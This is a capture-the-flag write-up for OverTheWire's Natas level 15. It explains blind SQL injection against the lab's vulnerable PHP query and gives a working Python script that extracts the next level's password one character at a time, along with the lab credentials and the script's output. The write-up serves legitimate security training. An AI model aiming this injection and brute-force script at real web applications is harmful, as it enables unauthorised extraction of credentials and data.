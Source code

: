 ```yaml
---
category: natas
title: Natas15 - SQL Injection Part 2 (Blind SQL Injection)
---
```


website: http://natas15.natas.labs.overthewire.org/ (password: AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J)

In this challenge, unlike the previous one where the password is printed out directly after a query, different feedback messages are provided based on the query results. Therefore, blind SQL injection applies to this scenario. According to <a href="https://owasp.org/www-community/attacks/Blind_SQL_Injection">this article</a> on OWASP, blind SQL injection is a type of SQL Injection attack that asks the database true or false questions and determines the answer based on the applications response. Blind SQL injection is nearly identical to normal SQL Injection, the only difference being the way the data is retrieved from the database. When the database does not output data to the web page, an attacker is forced to steal data by asking the database a series of true or false questions.

Now let's look at how the web application responds to a query:

```php
$query = "SELECT * from users where username=\"".$_REQUEST["username"]."\"";
...
$res = mysql_query($query, $link);
...
if(mysql_num_rows($res) > 0) {
    echo "This user exists.<br>";
} else {
    echo "This user doesn't exist.<br>";
}
```

As we can see above, a message "This user exists" is returned if the query is true. Otherwise "This user doesn't exist" is returned.
Therefore, we can come up with the input <small>natas16\" and password like \"%a%</small> in the textbox.
That user input will compose a sql query like this:
```raw
SELECT * from users where username="natas16" and password like "%a%"
```

What the above query does is to test if natas16's password contains letter "a". If so, you will see the message "This user exists". Otherwise you will see a different message. By trying different characters and checking the response, you will eventually be able to guess the correct password.

I came up with a python script that cracks the password. This script takes two steps: 
1. Figure out what characters are contained in the natas16's password.
2. Figure out the final password by guessing the combinations starting from the 1st character until the last character of the password.

```python
#!/usr/bin/env python3

import requests
# import requests.auth
from requests.auth import HTTPBasicAuth


url = "http://natas15.natas.labs.overthewire.org/?debug"
natas15_username = "natas15"
natas15_password = "AwWj0w5cvxrZiONgZ9J5stNVkmxdk39J"

s = requests.Session()
s.auth=HTTPBasicAuth(natas15_username, natas15_password)


def is_hit(data):
    resp = s.post(url, data=data)
    return resp and "exists" in resp.text


def get_password_chars():
    candidate_chars = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789'
    password_chars = ''

    print('Looking for password char set...')
    for char in candidate_chars:
        # to ensure case sensitive, use "like binary" instead of "like"
        data = {'username': f'natas16" and password like binary "%{char}%'}
        if is_hit(data):
            password_chars += char
            print(f'The password contains following chars: {password_chars}')

    return password_chars


def get_password(password_chars):
    password = ""
    for i in range(32):
        print(f'Looking for the position {i}...')

        for char in password_chars:
            # to do pattern match, use "rlike" instead of "like"
            # print(f'Trying char {char}...')
            data = {'username': f'natas16" and password rlike binary "^{password}{char}'}
            if is_hit(data):
                password += char
                print(password)
                break

    return password


# Step 1: Find out what chars the password contains
password_chars = get_password_chars()
print(f'char set contains: {password_chars}')

# Step 2: Find out the password by ordering the chars found in step 1
natas16_password = get_password(password_chars)
```

Running the script, we have the password for natas16, which is "WaIHEacj63wnNIBROHeqi3p9t0m5nhmh":
```shell
$ python3 natas15.py
Looking for password char set...
The password contains following chars: a
The password contains following chars: ac
The password contains following chars: ace
The password contains following chars: aceh
The password contains following chars: acehi
... ... <skipped>
char set contains: acehijmnpqtwBEHINORW03569
Looking for the position 0...
W
Looking for the position 1...
Wa
Looking for the position 2...
WaI
Looking for the position 3...
WaIH
Looking for the position 4...
WaIHE
... ... <skipped>
Looking for the position 30...
WaIHEacj63wnNIBROHeqi3p9t0m5nhm
Looking for the position 31...
WaIHEacj63wnNIBROHeqi3p9t0m5nhmh
```
